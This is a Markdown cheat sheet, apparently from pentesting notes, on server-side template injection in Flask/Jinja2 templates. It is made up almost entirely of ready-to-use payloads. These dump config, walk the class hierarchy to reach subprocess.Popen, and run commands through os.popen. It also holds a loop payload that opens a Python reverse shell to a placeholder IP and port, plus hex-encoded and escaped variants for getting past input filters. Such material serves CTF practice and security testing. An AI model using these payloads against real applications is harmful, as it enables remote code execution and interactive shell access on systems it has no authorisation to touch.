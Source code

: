# jinja2 flask SSTI

## Info

* **Method Resolution Order (mro):** allows to go up the inherited objects chain
* **subclasses:** going down the inheritance chain

## Jinja2 Templates

Jinja2 supports templates for the format

* `{{ ... }}`
* `{% ... %}`

## subprocess.pOpen method

```
# print all config vars
{{config}}
{{self.__dict__}}
{{config.items()}}

# find the mro object[X] to list all subclasses
{{ ''.__class__.__mro__ }}
{{ ''.__class__.__mro__[X].__subclasses__() }} => list of all subclasses

# find subprocess.pOpen class
{{ ''.__class__.__mro__[X].__subclasses__()[XXX] }} => <class 'subprocess.pOpen'>

# RCE
{{ ''.__class__.__mro__[X].__subclasses__()[XXX]('id', shell=True, stdout=-1).communicate() }}
```

## RCE Styles

```bash
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```

### brute-RCE (without guessing mro class)

```
{% for x in ().class.base.subclasses() %}{% if "warning" in x.name %}{{x()._module.builtins['import']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("IP",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash", "-i"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

## Bypass restrictions (1)

* [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)

```bash
{% for x in ().__class__.__base__.__subclasses__() %}
    {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__['__import__']('os').popen("ls").read()}}
    {%endif%}
{%endfor%}

# is converted (via hex encoding)

{% for a in []["5F5F636C6173735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F626173655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F737562636C61737365735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]() %}
    {% if "7761726E696E67"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78") in a["5F5F6E616D655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")] %}
        {{a()["5F6D6F64756C65"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F6275696C74696E735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F696D706F72745F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6F73"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["706F70656E"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6563686F2024666C6167"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["72656164"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]()}}
    {%endif%}
{%endfor%}
```

## Bypassing restrictions (2)

```bash
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}
# modifying {{ }} to a different method using {% %}
# modifying ' to "
# modifying _ to \x5f

{% request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() %}

# using operator:with
# {% with %} ... {% endwith %} 

{% with kashz=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("id")["read"]()  %} kashz {% endwith %}

# can try using bas64 payload
```

## References

* [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
* [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
* [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)
* [https://secure-cookie.io/attacks/ssti/](https://secure-cookie.io/attacks/ssti/)
